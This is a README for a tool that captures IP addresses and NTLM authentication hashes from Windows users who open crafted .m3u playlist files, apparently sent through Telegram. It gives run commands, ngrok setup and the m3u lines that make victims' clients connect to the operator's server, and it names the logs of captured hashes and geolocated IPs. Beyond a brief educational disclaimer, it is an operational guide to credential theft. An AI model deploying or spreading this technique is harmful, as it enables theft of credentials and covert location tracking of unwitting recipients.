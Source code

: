 # IP and NTLM Hash Detection Tool using M3U file

A Python-based tool designed to capture IP addresses and NTLM authentication hashes from remote Windows clients using Telegram (lack of blocking the file extension .m3u), primarily for security testing and educational purposes.

Credits to: https://x.com/0x6rss/status/1906070098764538201/photo/1 and https://www.facebook.com/share/p/16Q8pGYLqJ/

As of 31/03/2025 - this simple bug it's NOT fixed yet.

## Demonstration

![M3U Exploit Demonstration](m3u.png)

For a detailed video walkthrough of the tool in action, see [ipltlm.mp4](ipltlm.mp4)

## Overview

This tool sets up an HTTP server that:
1. Logs client IP addresses and connection details
2. Attempts to capture NTLM authentication hashes when clients connect
3. Provides a client-side JavaScript mechanism to detect and report public IP addresses
4. Generates .m3u files that can trigger connections when opened in media players

## Features

- **IP Address Logging**: Records client IP addresses, ports, and connection details
- **NTLM Hash Capture**: Requests NTLM authentication and logs any hash responses
- **Public IP Detection**: Uses client-side JavaScript to detect and report real public IP addresses
- **Geolocation**: Identifies the geographic location of captured IP addresses
- **Network Diagnostics**: Performs connectivity tests to ensure the server is publicly accessible
- **Alternative Port Support**: Can automatically try alternative ports if the primary port is unavailable

## Prerequisites

- Python 3.6 or higher
- Internet connectivity
- Open port access (firewall/router configuration may be required)

## Installation

1. Clone the repository or download the script
2. Install the required dependencies:

```bash
pip install -r requirements.txt
```

## Usage

### Basic Usage

Run the script with default settings:

```bash
python ipntlmhash.py
```

This will start the server on port 8001 and automatically detect your IP address.

### Advanced Usage

```bash
# Specify a custom IP address and port
python ipntlmhash.py --ip 192.168.1.100 --port 8080

# Try alternative ports if the main port fails
python ipntlmhash.py --alt-ports
```

### Command-line Options

- `--ip`: Specify the server IP address (default: auto-detect)
- `--port`: Specify the port to listen on (default: 8001)
- `--alt-ports`: Automatically try alternative ports (80, 443, 8080, 8000) if the primary port fails

## Using with Ngrok (Recommended)

For easier public accessibility, especially if you're behind NAT or a firewall, use ngrok:

1. Download and install ngrok from [https://ngrok.com/download](https://ngrok.com/download)
2. Start the script normally:
   ```bash
   python ipntlmhash.py
   ```
3. In a separate terminal, start ngrok pointing to your local server port:
   ```bash
   ngrok http 8001
   ```
4. Ngrok will provide a public URL (like `https://a1b2c3d4.ngrok.io`)
5. Manually edit the generated .m3u files to use this ngrok URL instead of your IP:
   ```
   # Edit ipltlmhash.m3u to contain:
   https://a1b2c3d4.ngrok.io/somefile.mp3
   
   # Edit ip_detect.m3u to contain:
   https://a1b2c3d4.ngrok.io/ip
   ```

## How It Works

1. The server listens for incoming connections on the specified port
2. When a client connects, the server logs the IP address and port
3. The server attempts to initiate NTLM authentication with the client
4. If the client responds with NTLM authentication data, the server logs it
5. The `/ip` endpoint serves a page with JavaScript that detects the client's public IP
6. The client can report back its public IP using the JavaScript-based detection

## Output Files

- `ip_log.txt`: Contains logs of all client connections and reported public IPs
- `ntlm_log.txt`: Contains captured NTLM authentication data
- `ipltlmhash.m3u`: M3U file that tries to capture both IP and NTLM hash when opened
- `ip_detect.m3u`: M3U file that directs clients to the IP detection page

## Limitations

1. NTLM hash capture depends on the client's system attempting NTLM authentication
2. Server accessibility requires proper network/firewall configuration
3. The tool doesn't fully process the NTLM handshake; it only captures the hash data
4. Public IP detection requires JavaScript to be enabled in the client's browser

## Security Note

This tool is designed for educational purposes and security testing with proper authorization. Unauthorized use of this tool against systems you don't own or have permission to test may violate laws and regulations.

## Troubleshooting

If you're having trouble with connectivity:

1. Ensure your firewall allows incoming connections on the server port
2. If behind a router, set up port forwarding to your machine
3. Use the ngrok method described above for reliable public access
4. Check the "Network Configuration Check" and "Server Accessibility Test" sections in the tool output

## License

[MIT License](LICENSE) 
